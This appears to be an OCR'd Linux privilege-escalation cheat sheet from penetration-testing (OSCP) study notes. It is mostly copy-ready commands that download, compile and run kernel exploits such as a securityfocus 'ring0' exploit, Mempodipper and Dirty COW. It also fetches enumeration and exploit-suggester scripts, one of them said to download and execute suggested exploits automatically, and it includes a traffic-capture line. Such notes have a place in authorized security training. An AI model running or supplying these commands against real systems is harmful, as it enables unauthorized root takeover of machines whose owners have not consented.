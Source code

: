 wget http://downloads.securityfocus.com/vulnerabilities/exploits/36038-6.c; gcc 36038-6.c -m32 -o ring0; chmod +x ring0; ./ring0

Inspect web traffic

$ tcpdump tcp port 80 -w output.pcap -i eth0

Scripts to run

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

https://raw.githubusercontent.com/codingo/OSCP-1/master/xploitdeli.py

wget http://www.securitysift.com/download/linuxprivchecker.py

wget https://github.com/pentestmonkey/unix-privesc-check

Other scripts:

wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

wget https://raw.githubusercontent.com/PenturaLabs/Linux\_Exploit\_Suggester/master/Linux\_Exploit\_Suggester.pl

wget  https://www.rebootuser.com/?p=1758

Exploits worth running

CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

https://www.exploit-db.com/exploits/15285/

Linux Kernel <= 2.6.37 'Full-Nelson.c'

https://www.exploit-db.com/exploits/15704/

CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

https://git.zx2c4.com/CVE-2012-0056/about/

Linux CVE 2012-0056

wget -O exploit.c <http://www.exploit-db.com/download/18411>

gcc -o mempodipper exploit.c

./mempodipper

CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

https://dirtycow.ninja/

Compile dirty cow:

g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil

Cross compiling exploits

$ gcc -m32 -o output32 hello.c #(32 bit)
